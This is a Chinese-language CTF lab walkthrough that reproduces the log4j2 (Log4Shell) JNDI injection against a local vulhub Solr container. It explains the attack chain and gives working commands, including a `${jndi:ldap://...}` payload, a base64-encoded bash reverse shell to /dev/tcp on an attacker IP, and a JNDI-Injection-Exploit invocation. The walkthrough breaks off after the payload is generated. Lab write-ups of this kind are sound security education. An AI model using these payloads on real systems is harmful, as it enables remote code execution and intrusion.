



log4j2 - CTF
===

用 docker 搭建靶机完成渗透, 理解 log4j2 漏洞。

### 靶机准备

首先准备 docker 文件, 编辑 `docker-compose.yaml`:

```yaml
version: '2'
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
```

在同一目录执行 `docker-compose up -d`:



拉取完毕后启动镜像, 访问 8983 端口:



### log4j2 漏洞原理

#### log4j2

`log4j2` 是 Java 中常用的日志文件框架, 主要是帮助开发者记录程序运行时的信息, 例如调试信息, 运行错误等。

`log4j2` 存在一个关键特性: 支持插入**动态内容**, 例如变量和表达式, 并且支持插件来自定义功能, 比如**解析${xxx}表达式**。

> 看到这里已经有可以渗透的点了, 如果 Log4j2 不对用户的输入进行过滤, 那么就和 sqli 一样存在明显的注入问题。

#### JNDI

JNDI（Java Naming and Directory Interface） 是 Java 的一个 API，用于**访问命名和目录服务**。

简单说，它是一个 "中间人"，允许 Java 程序通过统一接口访问各种资源（如数据库、远程对象、文件系统等）。

在攻击链中, JNDI 是一个 "跳板" , 通过 `jndi:ldap://` 的调用方式触发远程加载恶意类。

#### LDAP

LDAP 是一套轻量级目录访问协议, 其作用类似电话簿, LDAP 支持**通过名称快速查找**, 并且数据保持树形结构, 以层级的方式住址: 如 `A-B-C-D`。

#### 完整攻击链

1. 设计 payload 
构造恶意 payload ,包含`${jndi:ldap://attacker_IP/exploit} `的请求

2. 消息日志解析 
消息日志在生成时, 解析 payload 并产生 jndi 查询。

3. 加载恶意类 
由于 ldap 中填入的是攻击机的 ip, 因此此时调用 LDAP 服务时, 会向攻击方发送请求, 并执行 `exploit` 利用

4. 执行任意代码
如果 `exploit` 中为恶意代码, 例如 shellcode, 那么这里就会直接发送一个**反弹shell**到攻击机上。


### log4j2 漏洞复现

#### 启动靶机

开启靶机端口映射, 这样 kali 才能访问对应端口:

```bash
docker run -d -p 8983:8983 --name log4j2 sha256:052794134d434bc2db0775211589beb372412af333a262dbf7977d28ec8d2142
```

在 kali 中用 telnet 尝试连接:



#### 构造 payload

首先对 shellcode 作 base64 编码:

```bash
echo "bash -i >& /dev/tcp/192.168.170.135/4444 0>&1" | base64
```

启动 JNDI 攻击工具:

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
-C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3MC4xMzUvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" \
-A 192.168.170.135
```

> `-C`: Base64 编码的反弹 Shell 命令。
> `-A`: 地址, 攻击机 kali 的 ip 。
> 输出为payload: `ldap://192.168.170.135:port/Exploit`

